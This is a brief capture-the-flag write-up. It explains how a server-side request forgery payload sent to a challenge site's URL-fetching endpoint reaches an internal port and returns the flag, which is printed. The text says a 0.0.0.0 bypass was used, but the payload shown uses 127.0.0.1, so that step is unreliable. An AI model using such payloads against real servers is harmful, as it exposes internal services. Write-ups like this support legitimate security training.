 # get flag 1
`-`

## About the Challenge
We are given a website and we need to get the flag on port `9001`

![preview](images/preview.png)

## How to Solve?
I solve this chall by using SSRF (Server-Side Request Forgery) vulnerability to retrieve the flag on port 9001. But there is some filter, for example i can't use `http://127.0.0.1` payload. To bypass the filter, im using `http://0.0.0.0` payload and then i can get the flag by accessing
```
http://45.79.210.216:5000/getUrl?url=http://127.0.0.1:9001/flag.txt
```

And then you will retrieve the flag

```
ictf{l0c4l_byp4$$_323theu0a9}
```